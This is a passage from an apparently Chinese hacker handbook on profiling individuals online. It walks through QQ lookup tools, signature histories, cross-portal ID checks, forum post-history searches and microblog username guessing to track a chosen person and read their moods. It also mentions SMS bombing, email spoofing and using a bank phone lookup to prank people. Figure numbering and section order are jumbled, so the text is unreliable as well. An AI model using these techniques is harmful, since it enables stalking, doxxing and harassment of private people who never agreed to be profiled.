

图10

在第二天时，你的电子邮箱就会收到Google手机产品的最新资讯，如果你不想等待，可将频率更改为“出现新的结果时”。顺便说下，Google手机目前什么都好，就是模样不大对劲。看！这是我下午收到的快讯，如图1.1所示。



图1.1

### 2.3 门户网站，信息泄露的大口子

在这一小节之前，我想对你提个问题：门户站点（如QQ、163、Sina等）靠什么生存？呃……你想到了吗？是广告！而广告与流量通常需要庞大的用户来维持，它们如何吸引用户呢？答案是提供服务。如果服务提供得更多，用户使用更久，相应地所带来的广告费就更高。

在黑客渗透攻击中有条一成不变的规则，即“系统开放的服务越多，越容易导致被侵入”。同样地，门户站点提供的服务越多，对我们来说，更有利于我们搜集用户信息。

通常门户站点除了提供主要的资讯服务外，还提供个人博客（Blog）、网络游戏（Game）、大型社区（BBS）、聊天（IM、聊天室）、电子邮箱（E-mail）、网络存储（Storage）、Web2.0服务等等。今天的网络不再是以往的网络环境，门户运营商们为了抓住用户，他们会需要你的ID，即一个用户名登录，才能使用他们的服务。我相信在看本书的你，一定在这些门户站点注册了一个ID，当你无法查到某个人的信息时，不妨将眼光瞄向门户网站。

### 2.3.1 围攻小企鹅——万能的QQ信息刺探

腾讯QQ在中国IM市场坐头把交椅，拥有注册用户上亿，同时在线用户上千万，通过它来刺探信息也是非常方便的。常规的查询主要从对方的空间获取信息，比如日志、相册、好友的留言记录等。简而言之，对方开通了多少QQ服务，我们就查询对方的相关记录。为了方便大家，我已经写了一个综合查询的小工具——QQ信息探路先锋，先熟悉下它的界面吧，如图1.2所示。



图1.2

使用很简单，在QQ号码栏处填上你需要查询的QQ号码，然后选择相关的服务查询。比如查询处第一个按钮是“QQ社区”，这可使我们知道对方是否发过帖子，如果有，不妨去分析一下内容，其它的以此类推。

现在我演示查询某人QQ的“滔滔”（一种微型的博客）服务，首先在“QQ号码”处填入对方的QQ号；然后点击“查看Q号服务”栏的“滔滔”即可查看到对方的博客日志了，如图13所示。



图13

这种查询方式很简单吧，可使我们随时掌握对方的动态。还有一个查询功能值得推荐，那就是QQ的历史签名，这个功能可看到对方全部的历史签名记录，可以让你了解对方从申请QQ一直到现在的心理行为过程。它的实现原理很简单，只要开通了QQ空间的用户就能在空间看到签名。

我们测试一下吧，仍然使用前面的QQ号码，点击“其它”栏最后的按钮“QQ历史签名”即可，如图14所示。怎么样？我们能获知对方在某时的喜怒哀乐，透视对方的心理状态。



图14

#### 2.3.2 网易、新浪、搜狐、雅虎聚会记

中国最早的互联网文化可以说是从门户站点开始，它们为国内网络发展作出了推进的贡献。首先了解一下普通用户关注于门户站点的哪些服务吧。网易邮箱使用者居多，同样，新浪与搜狐的明星博客也吸引了一批用户，聊天类就有新浪的UC。现在，我们如何做呢？假设你获知某人的ID后，可以查看这个ID是否在使用门户站点的服务。比如，你找到对方的博客，就可以从博客内容中更加深入了解对方的信息。

方法很简单，只要用获得的ID在门户网站进行试探就可以了。为了方便，我准备了一个简单的查询工具，同前面的工具一样，只要输入ID，并点击相应的查询即可，界面如图15所示。



图15

假设我要查询pepshop的ID注册了哪些服务，在“输入ID查询”处填上“pepshop”，接着把所有的门户“博客”都点击了，可以发现这个ID注册了两个博客，即网易与搜狐的博客，如图16所示。



图16

如果ID没有查询到注册了哪些服务，你还可以使用门户站点提供的搜索引擎寻找痕迹。

### 2.3.3 高端用户：Google与微软

如果说国内门户站点提供的服务只为满足大部分普通用户的需求的话，那么Google与微软两大软件巨头提供的服务更受高端用户欢迎。

国内高端用户主要以商务人士及IT人员为主，Google与微软提供的服务不像国内花哨，这使它们在大学生用户群影响深远。对于高端用户来说，他们接触互联网有三年或者更久，他们熟悉IT资讯，并善于使用实效性的网络服务。

“高端用户”无非解释一个概念：国际性企业提供的网络服务更受他们喜欢，能最大化保护他们的隐私及数据安全。现在我简要介绍Google与微软两大网络巨头的服务及概要。微软IM聊天MSN是全球使用者最多的交流工具，与Google的Gtalk聊天工具一样，它……

### 2.4 综合信息的搜集与整理，你会了吗？

虽然网页式的搜索引擎能满足普通用户需要，但随着技术进一步的发展，人们需要一种更加细分的搜索引擎，以满足不同的需要。在将来的10年中，搜索引擎不再局限于关键字，而是自然语言与垂直性的搜索引擎。未来，搜索引擎服务商将会整合资源，将信息细分到可以告诉你如何买衣服。在这一小节，让我们看看第二代的搜索引擎在信息搜集过程中的应用。

#### 2.4.1 你需要掌握的搜索引擎有哪些？

在浩瀚的网络中查询某个人的信息往往需要反复几次，这个过程中唯一的线索就是对方的ID及喜好。我们追寻一个线索以求获取更多的信息，还原对方的心理特点，这需要你在搜索上运用得很好。

以下介绍的搜索引擎要按需运用，如你若知道对方喜欢泡论坛，那就使用论坛搜索；你若知道对方喜欢明星，那么不妨使用明星站点的站内搜索……

##### 2.4.1.1 网页与图片的搜索

毋庸置疑，我首选的还是Google搜索引擎，尽管它在中国受到诸多方面的阻碍，但其搜索爬虫抓取的网页很快速；其次是百度中文搜索引擎；雅虎搜索引擎也不错，它是第一代搜索引擎的代表；另外，大家也可以试试后起之秀的微软Live搜索引擎。

那么你究竟应该选择哪个搜索引擎呢？为了让大家更好了解，可以参考我的搜索引擎评估表，如图17所示。

| 搜索引擎 | 网页搜索质量 | 图片搜索质量 | 评估 |
|---|---:|---:|---|
| Google（google.com） | 88% | 50% | 支持中文搜索结果，图片搜索有待提高。 |
| 百度（baidu.com） | 70% | 60% | 中文及图片搜索表现优秀，但搜索结果并不公正。 |
| 雅虎（yahoo.cn） | 80% | 40% | 搜索结果表现不俗，图片搜索有待提高。 |
| Live（live.com） | 60% | 40% | 总体处于中等水平。 |

图17

同样地，我不会推荐你只使用一个搜索引擎，如果运气太坏的话，请将上面四个搜索引擎都试用一次。

##### 2.4.1.2 博客与论坛的搜索

博客是Web 2.0时代的产物。在2007年可以说是很火爆，几乎大型的门户站点都提供了博客服务。博客是一种网络日志，国内绝大部分的人都使用了博客。通过博客查询信息是一种很有效的手段。同时，它也是一种交流平台；你的博客会有好友查看评论，并与他们交换友情链接。

博客搜索有两种方式，一种就是服务商提供的，比如你注册了新浪博客，可以使用新浪博客搜索到你的博客。第二种方式是通过第三方搜索引擎完成，例如Google提供了博客搜索服务。

论坛作为一种交互式平台讨论话题，很受网民欢迎，它同样也有两种方式的信息搜索，一是利用论坛自带的搜索功能，这个功能我们稍后再谈；二是利用第三方搜索引擎，例如奇虎……

## 第三章 无处藏身——信息搜索的艺术

论坛搜索引擎。在图18中，我已经整理好主流的博客与论坛搜索引擎了。

| 主流博客搜索引擎 | 网址 | 主流论坛搜索引擎 | 网址 |
|---|---|---|---|
| Google博客搜索 | http://blogsearch.google.cn | 奇虎论坛搜索 | http://bs.qihoo.com |
| 百度博客搜索 | http://blogsearch.baidu.com | 搜搜论坛搜索 | http://bbs.soso.com |
| 奇虎博客搜索 | http://blog.qihoo.com |  |  |

图18

个人感觉Google与百度的博客搜索很好，论坛类就奇虎搜索优秀，现在我用我的网络ID搜索看看，如图19所示，结果相当不错了，基本能搜索到我常去的论坛以及发帖信息，平分秋色了。



图19

##### 2.4.1.3 论坛程序与网站内的信息搜索

论坛是不可缺少的网络交流工具，不过利用论坛自带的搜索功能来搜索信息并不是鲜为人知的。论坛搜索可以获取哪些信息呢？比如知道对方全部的发帖记录以及最后的发帖时间。此外你还可以查看对方的帖子，从回复的帖子看看有哪些人是对方的好友。如果你有对方ID的密码，就能登录查看对方的回帖记录。

现在我拿《黑客手册》的论坛作演示，登录论坛后你会看到功能菜单处有个“搜索”，点击进入，或者直接在网址处添上search.php后回车即可。

这里我们查查“黑裤子”编辑的发帖记录吧，在搜索页的用户名处填上“黑裤子”，然后点击“搜索”，看！一下就找出来了，如图20所示。



图20

##### 2.4.1.4 微型博客的搜索

《入侵的艺术》这本书的信息。打开网页后，在右上角的搜索框内输入“入侵的艺术”，回车即可搜索到相关信息，如图2.1所示。



微型博客是即时信息的一个变种，它允许用户将自己的最新动态和想法以短信息的形式发送给手机和个性化网站群，而不仅仅是发送给个人。预计几年之后，它将成为继博客之后的信息主流，你可以通过MSN、QQ、手机、邮箱、网站随时随地发送即时信息。我预计微型博客在今后几年内将会像QQ一样拥有庞大的用户。

微型博客加速了信息传输时间，基本可以按秒来计算，哪怕你在厕所里也照样可以用手机写日志。它的方便性将会导致更多的用户在上面发送大大小小的信息，如“今天很不走运，掉了20块钱”式的唠叨。你可否想到，这将成为个人信息及隐私泄露的开端！在图2.2中，列出的是国内主要微型博客服务提供商。

| 微型博客 | 网址 |
|---|---|
| 说说 | http://shuo.it/ |
| 叽歪de | http://jiwai.de/ |
| 饭否 | http://fanfou.com/ |
| 滔滔 | http://taotao.com/ |

在这些站点都能搜索哪些内容呢？能根据用户ID或者空间名搜索到指定用户空间，以此查看用户的详细信息。微型博客中除了腾讯滔滔没有保护用户隐私外，其他微型博客都提供了隐私保护，即需要登录与加为好友后才能查看更多详细信息。我们有两种方式查询用户，一是尝试猜解，即以用户名测试是否注册了ID，比如在网页浏览器提交http://fanfou.com/用户名；二是注册微型博客后进行搜索，这里我演示说说微型博客的搜索。

登录后，在右方的搜索框中输入要查询的ID，然后回车即可，如图2.3所示。



#### 2.4.2 一些你不能忽视的信息查询

网络中，总会有人提供一种特别的在线服务，像在线电子邮件欺骗；或者有趣的在线短信炸弹攻击。在本小节，我将介绍如何使用在线查询。实际上，这并不是全部，你也可以更加深层地挖掘。曾经我经常使用网银在线的手机查询整人，只需要一个手机号即可查询到手机用户的余额以及用户名，可惜好景不长，网银在线取消了这项查询。当然！我相信，你会找到比我更有趣的信息查询服务！

##### 2.4.2.1 你的同学在这里——校友录

